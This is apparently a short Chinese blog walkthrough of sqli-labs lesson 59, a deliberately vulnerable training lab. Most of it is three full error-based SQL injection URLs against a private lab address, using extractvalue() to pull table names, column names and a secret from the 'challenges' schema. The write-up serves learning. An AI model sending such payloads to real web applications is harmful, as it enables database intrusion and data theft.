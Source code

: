 ```yaml
---
title: sqli-labs lession-59 GET-双注入-变化2-仅允许5次请求
date: 2018-11-29 09:18:23
tags: [sqli-labs]
categories: sql注入
---
```


# sqli-labs lession-59 GET-双注入-变化2-仅允许5次请求

---

手注

判断为数字型,并且可以利用报错注入。

![001](/img/sql/Lesson-59/001.png)

`http://10.60.17.35:8082/Less-59/?id=1+and+extractvalue(null,concat(0x7e,(select+group_concat(table_name)from+information_schema.TABLES+WHERE+TABLE_schema='challenges'),0x7e))%23`

![002](/img/sql/Lesson-59/002.png)

`http://10.60.17.35:8082/Less-59/?id=1+and+extractvalue(null,concat(0x7e,(select+group_concat(column_name)from+information_schema.columns+WHERE+TABLE_schema='challenges'+and+table_name='av81nm62ml'),0x7e))%23`

![003](/img/sql/Lesson-59/003.png)

`http://10.60.17.35:8082/Less-59/?id=1+and+extractvalue(null,concat(0x7e,(select+GROUP_CONCAT(secret_V1FL)from challenges.av81nm62ml),0x7e))%23`

![004](/img/sql/Lesson-59/004.png)

提交

![005](/img/sql/Lesson-59/005.png)
